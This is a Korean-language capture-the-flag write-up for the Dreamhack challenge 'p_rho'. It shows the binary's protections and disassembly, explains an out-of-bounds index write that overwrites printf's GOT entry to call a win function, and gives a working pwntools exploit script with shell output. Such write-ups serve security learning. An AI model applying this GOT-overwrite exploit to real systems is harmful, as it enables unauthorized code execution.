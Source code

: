 # p_rho
- [문제페이지](https://dreamhack.io/wargame/challenges/1617)

## 문제해설

먼저, checksec을 살펴보면
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

다음과 같다.

main함수의 어셈블리를 살펴보자.

```x86asm
   endbr64
   push   rbp
   mov    rbp,rsp
   sub    rsp,0x20
   mov    rax,QWORD PTR fs:0x28
   mov    QWORD PTR [rbp-0x8],rax
   xor    eax,eax
   mov    rax,QWORD PTR [rip+0x2e18]        # 0x404050 <stdin@GLIBC_2.2.5>
   mov    ecx,0x0
   mov    edx,0x2
   mov    esi,0x0
   mov    rdi,rax
   call   0x4010b0
   mov    rax,QWORD PTR [rip+0x2dea]        # 0x404040 <stdout@GLIBC_2.2.5>
   mov    ecx,0x0
   mov    edx,0x2
   mov    esi,0x0
   mov    rdi,rax
   call   0x4010b0
   mov    rax,QWORD PTR [rip+0x2dec]        # 0x404060 <stderr@GLIBC_2.2.5>
   mov    ecx,0x0
   mov    edx,0x2
   mov    esi,0x0
   mov    rdi,rax
   call   0x4010b0
   mov    QWORD PTR [rbp-0x10],0x0
   lea    rax,[rip+0xd72]        # 0x40200c
   mov    rdi,rax
   mov    eax,0x0
   call   0x401090
   lea    rax,[rbp-0x18]
   mov    rsi,rax
   lea    rax,[rip+0xd5d]        # 0x402012
   mov    rdi,rax
   mov    eax,0x0
   call   0x4010c0
   mov    rax,QWORD PTR [rbp-0x18]
   mov    rdx,QWORD PTR [rbp-0x10]
   lea    rcx,[rdx*8+0x0]
   lea    rdx,[rip+0x2da7]        # 0x404080 <buf>
   mov    QWORD PTR [rcx+rdx*1],rax
   mov    rax,QWORD PTR [rbp-0x10]
   lea    rdx,[rax*8+0x0]
   lea    rax,[rip+0x2d90]        # 0x404080 <buf>
   mov    rax,QWORD PTR [rdx+rax*1]
   mov    QWORD PTR [rbp-0x10],rax
   nop
   jmp    0x401293 <main+125>
```


계속하여 `val: `을 출력하고 `buf[i] = (input)`을 실행한다. 이후, `i = bug[i]`로 작동한다. 따라서, buf 근처의 got를 overwrite할 수 있다.

```
pwndbg> x/x 0x404080 - 120
0x404008 <printf@got.plt>:      0x00401040
```

buf의 120아래에 printf의 got가 존재하기 때문에 이를 오버라이트 하겠다.

이때, 이 바이너리 내에는 win이라는 함수가 존재한다. 이를 실행하도록 하겠다.

```python
from pwn import *

p = remote("host1.dreamhack.games", 17096)

p.sendline(b'-15')
pause()
p.sendline(b'4198838')

p.interactive()
```

```bash
[+] Starting local process './prob': pid 11081
[*] Paused (press any to continue)
[*] Switching to interactive mode
val: val: $ pwd
/mnt/c/users/samsung/desktop/my/workspace/study/2024_winter_mogakso/hack/dreamhack/p_rho/deploy
```

잘 실행된다.

![alt text](image.png)
